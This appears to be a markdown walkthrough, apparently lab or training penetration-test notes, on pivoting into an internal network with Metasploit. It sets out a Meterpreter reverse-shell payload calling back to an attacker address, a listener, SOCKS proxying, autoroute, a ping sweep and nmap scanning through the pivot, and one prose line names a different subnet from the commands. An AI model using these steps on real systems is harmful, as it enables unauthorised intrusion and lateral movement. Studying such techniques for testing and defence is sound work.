









1.  By using the `ifconfig` command, we observe that there is another network interface, ens192, which is part of a network that our current machine does not have direct access to.  
    
    
    
2.  To gain access to the `ens192` network, we can set up pivoting using Metasploit. The first step is to generate a reverse shell in ELF format using msfvenom.  
    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.219 LPORT=1337 -f elf > hackfast.elf`  
    
    
    
3.  Transfer the generated ELF file to the target machine (Check the File Transfer section for more information).  
    
    
    
4.  Start a Metasploit multi/handler to receive the reverse shell.  
    `msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set lhost 10.10.14.219; set lport 1337; exploit"`  
    
    
    
5.  After transferring the ELF file, give it execution permissions and run it on the target machine.  
    `chmod +x hackfast.elf && ./hackfast.elf`  
    
    
    
6.  With a Meterpreter shell established, we can now set up a SOCKS proxy server through Metasploit to tunnel our traffic. Use the following commands:
    
    ```
    use auxiliary/server/socks_proxy
    set SRVPORT 9050
    set SRVHOST 0.0.0.0
    set version 4a
    run
    jobs    //Confirming Proxy Server is Running
    ```
    
    
    
7.  After starting the SOCKS server, configure ProxyChains to route traffic through our newly established pivot. Add the following line to the end of the proxychains.conf file, typically located at /etc/proxychains.conf:  
    `socks4 127.0.0.1 9050`  
    
    
    
8.  Finally, use the post/multi/manage/autoroute module in Metasploit to route traffic for the 172.16.5.0 subnet through the Meterpreter session. This allows tools like Nmap to scan the target network through the proxy.
    
    ```
    use post/multi/manage/autoroute
    set SESSION 1
    set subnet 172.16.8.0
    run
    ```
    
    
    
9.  To discover active hosts within the 172.16.8.0/23 subnet, we can use the ping_sweep module:
    
    ```
    use post/multi/gather/ping_sweep
    set rhosts 172.16.8.0/23
    set SESSION 1
    run
    ```
    
    
    
10. With everything set up, you can now use Nmap (or other tools) to scan through the pivoting:  
    `proxychains nmap -sT -p22 [IP-ADRESS]`  
    
    